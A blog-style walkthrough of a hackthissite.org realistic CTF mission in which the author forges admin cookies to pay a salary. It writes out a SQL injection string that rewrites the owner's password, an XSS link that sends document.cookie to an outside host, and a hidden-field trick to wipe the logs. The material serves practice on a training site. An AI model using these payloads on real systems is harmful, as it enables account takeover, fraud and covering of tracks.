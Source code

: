 ```yaml
---
layout: post
title: Hack This Site - Realistic - CrappySoft Software
topic: Hack This Site
---
```


Welcome back to my walkthrough of hackthissite.org's CTF missions. I will be going through my thought process of how I solved these missions, and therefore also giving away the solutions. If you came across this to give you hints, watch out for spoilers! Good luck, have fun.

Our next realistic mission asks us to hack a website and ensure that the person contacting us gets properly paid for their work. They supply me with their login information in order to complete this challenge.

My first step for this challenge will be very similar to the last one. I will begin by going through the website, trying to see if I can find some kind of file structure and see if they have anything 'interesting' that I should be keeping in mind. Going through what is accessible prior to loging-in, we can see that the URL `./files/` is accessible and has directory listing off. I was able to deduce this URL from the mailing list page. From here, I can access the logs, the mailing list, and the demo of some software. I will keep this in mind as I start exploring the signed-in section of the website. 

The first thing that I notice when loging-in is that 3 cookies are set client side: `{strUsername, strPassword, intID}`. `strUsername` is the username/email that was used to login, encoded in url-encoding. `strPassword` seems to be an encoded version of the password that was used to login; `ilovemywork` was encoded into `5b3de25c4dba60d2102281633d339b48`. Looking at this encoded password, I instantly feel like it seems familiar, my suspicion is that it was hashed using MD5. This assumption was indeed correct as when I independently hash `ilovemywork`, I get the result `5b3de25c4dba60d2102281633d339b48`. `intID` was set to 2. Now that I have loged in, I now have access to two other pages, a 'pay salaries' page and a 'private message' page. Going through the private message page, I notice that we can send messages to 4 different people, including myself. The source code exposes the direct email addresses of these people, which we may need to use later in this challenge. Making a mental note of this, I will now checkout the 'pay salaries' page. Accessing this page, we are instantly presented with the message: "You are not an administrator." which suggests that we do not have the correct cookies in order to access this page. Now, we must figure out which cookies this page uses in order to 'validate' a 'pay salaries' request.

Going back to the private message page, there is an interesting observation to be made. The user that we are currently loged in as is listed as the second one in the dropdown list. Our `intID` cookie is also set to 2, which could suggest that this is somehow correlated. Otherwise, there are 3 users listed in addition to our current account, a sales man - which is exactly the same title given to the account I am currently in, thus we can ignore this - an owner, and a developer. Whilst it doesn't say 'administrator' we can assume that at least one of those two - owner, developer - are given the 'administrator' access level. It is apparent that we need to 'fake' being one of these people in order to complete this mission. Since there doesn't seem to be any apparent way to find out the passwords of either of these accounts, I will will begin by changing the `strUsername` and `intID` cookies to match up with what is shown in the dropdown list. Changing to the owner had the same "You are not an administrator" message, as changing the two cookies to match with the developer. This suggests that the backend does indeed verify the cookie `strPassword` in order to validate a 'pay salaries' request. Moving forward, I will target the owner, and my next objective is to complete one of the following:

1. Find/uncover the password of the account: `m-crap@crappysoft.com`
2. Change the password of the account: `m-crap@crappysoft.com`
3. Fake the `strPassword` cookie of the account: `m-crap@crappysoft.com`
4. Steal the `strPassword` cookie of the account: `m-crap@crappysoft.com`

Number 1 in the list above would only be possible if:
1. had direct access to the users database & a page serves content directly from a users database query
2. (out of scope of challenge...i think) we can somehow access the direct database files 

The only obvious way to access the users database directly is if the 'login' form is susceptible to SQL injection. Since the cookie `strPassword` is served to the client in hashed form, one would assume that the password is stored in hashed form in the database. This means that the SQL query that is used to authenticate a login request would look something like the following: `SELECT * FROM users WHERE username="username-in-clear" AND password="MD5(passsword-in-clear)"`. Furthermore, upon loging-in, there is no data served to the user that is directly off of the user database, thus we cannot easily 'find/uncover' the password. So, this is not the right step forward for this challenge.

Number 2 in the list above would only be possible if the login form is susceptible to SQL injection. This is a possible step forward. Since we know the rought look of the SQL query that is used to authenticate a login request, we can try to use it to change the password of the owner. By setting the username to anything, and the password to something like: `'; UPDATE users SET password="ae2b1fca515949e5d54fb22b8ed95575" where username="m-crap@crappysoft.com";`. This assumes that the table that stores the users information is named `users`, that the two fields `{password, username}` are used to store the password and username respectively, and that the username is stored as the full email. If any of these fields have been obfuscated, or SQL injection is simply not possible, then this makes this option obsolete as brute forcing these fields would take a very long time, and if SQL injection is not possible then its entirely useless to move forward. We will consider the rest of the options prior to moving forward with any attack vector.

Number 3 in the list above is considerably harder than it seems as the password cookie is a MD5 hashed value of the actual password. Since I have no idea what the password could be, in order to 'fake' the password cookie, it would be equivalent to trying to brute force into his account. In theory, this can take years, and thus is not a smart idea to go forward with.

Lastly, number 4 in the list above could be done in a wide variety of ways. Firstly, you can establish some sort of man-in-the-middle scenario with SSL stripping in order to obtain the cookie. This is definitely out of the scope of this mission and will not be discussed further but, it is a possibility. The other way is through XSS. There is a very important observation to be made about the `strPassword` cookie - and all the cookies that are used on this website - and that being, that the `HttpOnly` flag is not set, meaning any frontend Javascript can access the cookie directly. This suggests that if we can serve some frontend content using this website to the owner that has embedded Javascript, we could steal the cookie and send it off to a personal endpoint to collect said cookie. This seems to be the most likely attack vector as we do have a 'private message' system that is used on this website. If the messages are not stripped of any Javascript/HTML tags, then this is a fairly simple attack vector to complete. 

Moving forward with the fourth attack vector using XSS, we will first need to figure out if the 'private message' section is indeed susceptible to XSS. To do so, we will construct a 'fake' message to our owner that asks them to click a link that will steal their cookie. The following demonstrates the contents of our message:
```HTML
<a href="javascript:void(window.location='https://personalwebsite.com?cookie='+document.cookie);"> CLICK HERE </a>
```
Sending this message to the owner instantly results with the webpage giving us this message:
```
It's beyond the scope of this mission to check the XSS. So, assume you got this cookie:
strUsername=m-crap%40crappysoft.com; strPassword=94a35a3b7befff5eb2a8415af04aa16c; intID=1;
```
So there we have it! I didn't even need to setup an actual endpoint. With this, we now have the correct credentials to complete this misson. Changing our client-side cookies to match with what was provided, we will now try to access the 'pay salaries' page. This indeed did give us access to the 'pay salaries' page and our next step forward is to click the 'pay' button that is displayed beside our client's email address. Doing so resulted with the following message being displayed on the webpage: `YHEE THANKS MAN!! Thank's for my salary you really own!! dont forget to clean the logs by subscribing to them!!`.

Our final objective is now to clear the logs of our activity. The hint given in order to complete this is that we must 'subscribe' to them. This suggests that we should check out the 'mailing list' page more carefully. Going to this webpage, we can see that there is a note saying that the script that adds you to the mailing list removes all lines in the mailing list that do not have any '@' characters. Inspecting the form, we can see that there is a hidden field that determines the location of the mailing list. Since we already know where the logs are located from the initial investigation of the website, all that is needed to do is to change the value of the hidden form field to be `./files/logs/logs.txt` and click submit.

And there we have it, realistic mission 9 is complete.